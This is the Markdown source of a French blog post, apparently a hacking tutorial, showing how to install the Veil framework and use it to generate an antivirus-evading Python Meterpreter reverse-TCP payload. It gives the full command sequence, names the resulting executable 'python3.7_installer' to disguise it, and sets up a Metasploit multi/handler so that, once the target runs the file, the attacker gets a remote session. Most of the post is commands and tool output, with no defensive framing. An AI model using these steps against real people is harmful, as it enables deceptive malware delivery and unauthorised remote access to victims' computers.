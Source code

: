 ```yaml
---
author: Funeoz
permalink: /hacking/veil-evasion-av.html
title: Installation et utilisation de Veil (Evasion d'antivirus)
layout: post
read_time: true
---
```


![Veil](/techlovers/assets/image1veil.jpg) 

Veil (et non pas Veil-evasion qui a été discontinué) permet de rendre indétectable à environ 60% du temps un payload qui sera executé sur la cible. Son installation est très simple.

## Installation

Tout d'abord, git clone le repository :

{% highlight bash %}
$ git clone https://github.com/Veil-Framework/Veil.git
#Puis changer de dossier
$ cd Veil 
#Exécuter le script d'installation
$ ./config/setup.sh --force --silent
{% endhighlight %}

Cela va donc installer toutes les dépendances nécessaires. 

Il va vous être demandé aussi de renseigner le chemin pour Metasploit 
(ex:/opt/metasploit-framework)

## Utilisation

Deux modules sont utilisables dans le framework Veil : Evasion et Ordnance.

Evasion permet donc d'éviter la détection des payloads et Ordnance de générer des shellcode rapidement pour les utiliser avec des exploits ou des payloads. Mais cet article ne porte que sur Evasion.

Si on va dans la partie Evasion en tapant <<use 1>> puis <<list>>, on peut voir que ces payloads peuvent être dans différents languages.
Il faut savoir qu'il existe deux "types" de language : 
- les languages à haut niveau
- les languages à bas niveau

Par exemple, le Python est un language à haut niveau. Ce qui veut dire qu'il est proche des languages réels, donc plus simple à écrire. Donc les payloads auront plus de chance à être détectés.

Alors que le go est un language à bas niveau qui se rapproche du language machine.
Donc plus compliqué à être détecté.

On va donc pour l'exemple prendre le payload 28. Pour cela <<use 28>>

On tombe donc sur pleins d'options :

{% highlight bash %}
Veil/Evasion>: use 28
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 Payload Information:

        Name:           Pure Python Reverse TCP Stager
        Language:       python
        Rating:         Excellent
        Description:    pure windows/meterpreter/reverse_tcp stager, no
                        shellcode

Payload: python/meterpreter/rev_tcp selected

 Required Options:

Name                    Value           Description
----                    -----           -----------
CLICKTRACK              X               Optional: Minimum number of clicks to execute payload
COMPILE_TO_EXE          Y               Compile to an executable
CURSORMOVEMENT          FALSE           Check if cursor is in same position after 30 seconds
DETECTDEBUG             FALSE           Check if debugger is present
DOMAIN                  X               Optional: Required internal domain
EXPIRE_PAYLOAD          X               Optional: Payloads expire after "Y" days
HOSTNAME                X               Optional: Required system hostname
INJECT_METHOD           Virtual         Virtual, Void, or Heap
LHOST                                   The listen target address
LPORT                   4444            The listen port
MINRAM                  FALSE           Check for at least 3 gigs of RAM
PROCESSORS              X               Optional: Minimum number of processors
SANDBOXPROCESS          FALSE           Check for common sandbox processes
SLEEP                   X               Optional: Sleep "Y" seconds, check if accelerated
USERNAME                X               Optional: The required user account
USERPROMPT              FALSE           Make user click prompt prior to execution
USE_PYHERION            N               Use the pyherion encrypter
UTCCHECK                FALSE           Optional: Validates system does not use UTC timezone
VIRTUALDLLS             FALSE           Check for dlls loaded in memory
VIRTUALFILES            FALSE           Optional: Check if VM supporting files exist

 Available Commands:

        back            Go back to Veil-Evasion
        exit            Completely exit Veil
        generate        Generate the payload
        options         Show the shellcode's options
        set             Set shellcode option

[python/meterpreter/rev_tcp>>]:
{% endhighlight %}

Ce qui va nous être utilise est de juste renseigner l'adresse de notre ordinateur pour le LHOST grâce à ifconfig, puis génerer le payload : 

{% highlight bash %}
[python/meterpreter/rev_tcp>>]: set LHOST (votreip)
#generation du payload
[python/meterpreter/rev_tcp>>]: generate
{% endhighlight %}

Le module va ensuite demander le nom de fichier que vous voulez donner (ex: python3.7_installer) :

{% highlight bash %}
[>] Please enter the base name for output files (default is payload): python3.7_installer
#Attention:remplacez les espaces par des tirets bas.
{% endhighlight %}

Puis celui-ci va vous demander quel module vous voulez utiliser pour générer l'exécutable (pour moi, ce sera PyInstaller) :

{% highlight bash %}
[?] How would you like to create your payload executable?

     1 - PyInstaller (default)
     2 - Py2Exe

 [>] Please enter the number of your choice: 1
{% endhighlight %}

Le fichier va donc être généré et est disponible à :

{% highlight bash %}
$ cd /var/lib/veil/output/compiled
$ ls
$ python3.7_installer.exe
{% endhighlight %}

Il faudra ensuite lancer msfconsole, sélectionner l'exploit exploit/multi/handler et le payload python/meterpreter/reverse_tcp

{% highlight bash %}
$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST (votreip)
LHOST => (votreip)
msf5 exploit(multi/handler) > run
{% endhighlight %}

La session va donc être lancé puis il faudra que la personne exécute le fichier et voilà, vous aurez accès à votre cible.













